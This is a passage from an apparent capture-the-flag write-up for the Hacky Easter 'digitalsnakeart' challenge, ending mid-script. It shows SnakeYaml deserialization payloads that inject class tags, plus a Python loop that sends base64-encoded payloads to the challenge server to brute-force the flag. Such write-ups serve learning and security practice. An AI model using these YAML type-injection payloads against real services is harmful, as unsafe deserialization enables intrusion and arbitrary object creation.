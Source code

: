 produces the following yaml:

```
!!python/object:__main__.B
a: !!python/object:__main__.A
  a: !!python/object/new:__main__.Z
  - 1
```


## Exploiting

Ok so `com.hackyeaster.digitalsnakeart.Flag` is a super class of `Image`, so we just need to first annotate that it's an image:

```yaml
!!com.hackyeaster.digitalsnakeart.SnakeArt
image: !!com.hackyeaster.digitalsnakeart.Flag
- 42
name:
- &K snek
source: asdf
source: *K
resolution: 256x256
```

Apparently, judging by the python above, you can just pass class arguments as a list (?!?!) and that's equivalent to passing an argument by itself.

You can see I was testing other common yaml nonsense like references to see if that was the solution but no joy.

```yaml
name: snek
name:
- snek
```

For some reason these are equivalent? That's kinda wild to me. SnakeYaml is truly bizarre.

Anyway, now we can just iterate over values rather than 42 (literally just did a for loop range(500)) and it gave us the flag!

```python
import hashlib
import requests
import base64

for i in range(500):
    print(i)
    t = f"""
    !!com.hackyeaster.digitalsnakeart.SnakeArt
    image: !!com.hackyeaster.digitalsnakeart.Flag
    - {i}
    name: snek
    source: asdf
    source: snek
    resolution: 256x256
    """.strip()

    query = base64.b64encode(t.encode('utf-8')).decode('utf-8')
    res = requests.get("http://ch.hackyeaster.com:2307/art?art=" + query).text.split('\n')

    for x in res:
        #if '<h' in x:
        #    print(x)
        if '<img' in x:
            digest = hashlib.md5(x.encode('utf-8')).hexdigest()
            if digest == "6bb27636aafe5e67fdc4ce31ff771942":
```